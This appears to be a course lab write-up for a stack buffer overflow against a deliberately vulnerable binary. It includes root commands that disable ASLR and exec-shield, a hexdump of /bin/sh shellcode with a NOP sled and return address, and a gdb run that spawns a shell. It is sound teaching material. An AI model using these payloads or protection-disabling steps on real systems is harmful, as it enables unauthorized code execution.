 # Documentation on task 4
-------------------------
## Preparation
To make sure all security measurements are turned off, run the following:

    $ sudo -i
    # echo 0 > /proc/sys/kernel/randomize_va_space
    # echo 0 > /proc/sys/kernel/exec-shield   

## How to create and run the exploit
This creates a file `exploit`, with a crafted string to run `/bin/sh` using the vulnerable `as4_t4`

    $ perl exploit.pl

It should look like this (check with `hexdump -C exploit`):

    00000000  31 c9 f7 e1 51 68 2f 2f  73 68 68 2f 62 69 6e 89  |1...Qh//shh/bin.|
    00000010  e3 b0 0b cd 80 90 90 90  90 90 90 90 90 90 90 90  |................|
    00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
    *
    00000060  90 90 90 90 90 90 90 90  90 90 90 90 30 f6 ff bf  |............0...|
    00000070

You can see it working by entering:

    $ gdb ./as4_t4
    (gdb) run `cat exploit`
    Starting program: /home/oscourse/task-4/as4_t4 `cat exploit`
    process 2381 is executing new program: /bin/dash
    $ ls
    as4_t4	as4_t4.c  exploit  exploit.pl
 
## How we crafted the exploit
We figured out that the return address was set after 108 chars of input (which means 28 characters after `buf`, which has a length of 90 characters). At this place we wanted to insert the location for the given buffer, so the program would run shell code from our own buffer. We found that buffer address by recompiling the `as4_t4.c` (with buffer length now set to 96) so we could run it in `gdb` and set some breakpoint on a certain line (we used as4_t4.c:8, just after the overflow). At the break we could use the command `p/x &buf` to see the buffer's location and could confirm by repeating this procedure it wouldn't change over time. The location was therefore `0xbffff630` (see last 4 bytes of the hexdump).
 
We've used [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-517.php) to spawn `/bin/sh`. This is set at the beginning of the buffer (see lines 00-10). The middle part is stuffing with NOP (lines 10-60) till we are at 108 bytes and add the aforementioned return address.